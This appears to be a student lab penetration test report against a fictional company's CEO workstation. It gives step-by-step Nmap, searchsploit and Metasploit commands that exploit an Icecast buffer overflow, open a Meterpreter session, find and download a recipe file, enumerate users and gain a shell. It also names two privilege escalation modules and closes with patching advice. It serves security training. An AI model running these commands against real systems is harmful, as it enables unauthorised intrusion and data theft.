 # Penetration_Test_Engagement

In this activity, I played the role of an independent penetration tester hired by "GoodCorp Inc." to perform security tests against their CEO's workstation.

## GoodSecurity Penetration Report

RameshKuruba@GoodSecurity.com

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**

192.168.0.20

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

Icecast Header Overwrite

![Icecast_Vulnerability](Screenshots/search_icecast_command.png)

**Vulnerability Explanation:**
 
The Icecast Header Overwrite vulnerability running on 192.168.0.20 Host allows a buffer overflow exploit that lets an attacker system gain remote control of the victim system by overwriting the memory on the system. The exploit writes past the end of a pointer array when receiving 32 HTTP headers. This allowed for a variety of remote actions, such as file discovery and download, key logging, screen capture, and privilege escalation to Administrator.

**Severity:**

The severity of this vulnerability is High, with a CVSS score of 7.5.

**Proof of Concept:**

Perform a service and version scan using Nmap to determine which services are up and running:

- Run the Nmap command that performs a service and version scan against the target.

   > **Answer:** nmap -sV 192.168.0.20

   ![nmap](Screenshots/nmap_command.png)

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

- Run the SearchSploit commands to show available Icecast exploits.

   > **Answer:** searchsploit icecast

   ![searchsploit_icecast](Screenshots/searchsploit_icecast_command.png)

Now that we know which exploits are available to us, let's start Metasploit:

- Run the command that starts Metasploit:

   > **Answer:** msfconsole

   ![msfconsole](Screenshots/msfconsole_command.png)
 
Search for the Icecast module and load it for use.

- Run the command to search for the Icecast module:

   > **Answer:** search icecast

   ![search_icecast](Screenshots/search_icecast_command.png)
 
- Run the command to use the Icecast module:

   > **Answer:** use 0

   ![use](Screenshots/use_0_command.png)
 
- Run the command that sets the RHOST:

   > **Answer:** set RHOST 192.168.0.20

   ![RHOST](Screenshots/use_rhost_command.png)
 
- Run the command that runs the Icecast exploit.

   > **Answer:** exploit

   ![exploit](Screenshots/exploit_command.png)
 
You should now have a Meterpreter session open.

- Run the command that performs a search for the secretfile.txt on the target.

   > **Answer:** search -f *secretfile*.txt

   ![secretfile](Screenshots/secretfile_command.png)

- Run the command to performs a search for the recipe.txt on the target:

   > **Answer:** search -f *recipe*.txt

   ![recipe](Screenshots/recipe_command.png)

- Run the command that ex-filtrates the recipe*.txt file:

   > **Answer:** download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

   ![exfiltrate](Screenshots/exfiltrate_recipe_command.png)

- Verify that you have successfully downloaded the file.

   > **Verification:**

   ![verification](Screenshots/verify_drinks.png) 

You can also use Meterpreter's local exploit suggester to find possible exploits.

- Run the command to use Meterpreter’s local exploit suggester.

  > **Answer:** run post/multi/recon/local_exploit_suggester

  ![exploit_suggestor](Screenshots/exfiltrate_recipe_command.png)

- Run a Meterpreter post script that enumerates all logged on users.

   > **Answer:** run post/windows/gather/enum_logged_on_users

  ![enum_users](Screenshots/logged_on_users_command.png)

- Run the command to open a Meterpreter shell and gather system information for the target.

   > **Answer:** shell

   ![shell](Screenshots/shell_command.png)

- Run the command that displays the target's computer system information:

   > **Answer:** systeminfo

   ![systeminfo](Screenshots/systeminfo_command.png)

### Separate findings for each vulnerability can be found below:

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ikeext_service

**Vulnerability Explanation:**

The ikeext_service vulnerability utilizes a missing Dynamic-link library (DLL) in Microsoft’s operating system that runs as SYSTEM and starts automatically in default installations of select windows operating systems. This vulnerability can be used for privilege escalation under the SYSTEM account. It requires an insecure bin path to plant the DLL payload.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.0.

**Proof of Concept:** 

![ikeext_proof](Screenshots/ikeext_vulnerability.png)

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ms16_075_reflection

**Vulnerability Explanation:**

The ms16_075_relfection vulnerability utilizes a reflection link between Distributed Component Object Model (DCOM) and Remote procedure call (RPC) that allows local users to use a crafted application to gain a SYSTEM handle for privilege escalation. The module does not start as SYSTEM by default. Once gaining a shell SYSTEM impersonation is possible.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.9.

**Proof of Concept:** 

![ms16_proof](Screenshots/ms16_075_reflection_vulnerability.png)

### 3.0 Recommendations

The Icecast Header Overflow exploit is an older vulnerability that can be fixed with a current patch. It is recommended to update to the latest version of Icecast, found here: https://icecast.org/download/

Other technical recommendations would be to encrypt all sensitive data and enable firewall rules to only allow traffic on needed ports. 

